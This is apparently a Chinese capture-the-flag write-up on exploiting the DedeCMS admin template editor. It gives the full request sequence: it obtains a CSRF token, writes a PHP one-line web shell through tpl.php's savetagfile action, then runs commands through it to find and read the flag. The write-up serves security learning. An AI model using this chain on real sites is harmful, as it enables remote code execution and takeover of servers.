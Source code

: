 ## 0x02 代码审计

 todo

## 0x02 漏洞利用

第一步，`GET /dede/tpl.php?action=upload`，获取csrftoken

![1571127184086](writeup/1571127184086.png)

第二步，`GET /dede/tpl.php?filename=anemone.lib.php&action=savetagfile&content=%3C?php%20var_dump(system($_GET['x']));?%3E&token={csrf_token}`，上传一句话

第三步，`GET /include/taglib/anemone.lib.php?x=ls`，能RCE了：

![1571128235789](writeup/1571128235789.png)

## 0x04 找flag

`GET /include/taglib/anemone.lib.php?x=find%20/%20-name%20flag`

![1571128339477](writeup/1571128339477.png)

`GET /include/taglib/anemone.lib.php?x=cat%20/tmp/flagishere/flagishere/flagishere/flag`

![1571128497061](writeup/1571128497061.png)
